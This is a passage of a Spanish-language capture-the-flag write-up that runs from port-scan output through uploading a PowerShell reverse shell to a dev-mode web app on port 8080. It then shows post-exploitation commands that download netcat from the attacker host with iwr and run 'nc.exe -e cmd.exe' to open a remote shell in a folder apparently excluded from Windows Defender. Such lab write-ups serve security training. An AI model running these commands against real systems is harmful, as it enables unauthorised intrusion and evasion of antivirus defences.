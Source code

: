     47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    
    49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

## Analizamos la informacion obtenida sobre los puertos(Explotacion de la aplicacion obtenemos shell)

Despues de analizar todo, empezaremos por el puerto 8080

--Puerto 8080(http)

  ![image](https://github.com/Esevka/CTF/assets/139042999/9b6a2630-2e5c-4def-92fb-880264e301ef)

  Al encontrarse la aplicacion en dev-mode(puede contener fallos), pensamos en subir una reverse shell en powershell.

  1) Creamos la reverse shell --> rs.ps1

      ![image](https://github.com/Esevka/CTF/assets/139042999/68c212b0-034d-40d8-96dd-248cc3f19942)

  2) Nos ponemos en escucha  y  subimos rs.ps1 a la maquina victima a traves de la aplicacion web.

      ![image](https://github.com/Esevka/CTF/assets/139042999/ffc118d8-fcff-4c0a-b1f6-d4cbf9487450)

          ┌──(root㉿kali)-[/home/…/ctf/try_ctf/stealth/contenido]
          └─# rlwrap nc -lnvp 1988
          listening on [any] 1988 ...
          connect to [10.9.92.151] from (UNKNOWN) [10.10.170.164] 49833
          whoami
          hostevasion\evader

## Post-explotacion(obtenemos flags y elevamos privilegios)

- Subimos a la maquina victima netcat64.exe para obtener una shell mas interactiva y trabajar comodamente.

  Cuando subimos netcat a la maquina victima el sistema nos lo borra, suponemos que tiene windows defender corriendo o algun otro sistema.

- Lo primero que se me ocurre es buscar el directorio donde subimos el script en powershell, al estar en modo-dev posiblemente tenga una excepcion en windows defender.

      pwd
      C:\xampp\htdocs\uploads
      iwr -uri http://10.9.92.151/nc64.exe -o nc.exe
      dir
      hello.ps1 index.php log.txt nc.exe rs.ps1 vulnerable.ps1
      ./nc.exe -e cmd.exe 10.9.92.151 2000
